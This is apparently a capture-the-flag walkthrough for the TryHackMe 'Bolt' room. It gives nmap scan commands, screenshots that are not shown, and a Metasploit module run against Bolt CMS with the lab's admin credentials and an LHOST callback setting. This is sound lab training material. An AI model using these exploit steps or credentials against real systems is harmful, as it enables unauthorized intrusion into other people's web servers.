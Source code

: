 # Bolt

**Room Link:** [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (13) (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (8).png" alt=""><figcaption></figcaption></figure>

###

###

###

**Kali**

```
msfconsole
```

**Kali(msfconsole)**

```
search bolt
use 0
set RHOST $VICTIM
set LHOST $KALI
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://$VICTIM:8000
run
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>























































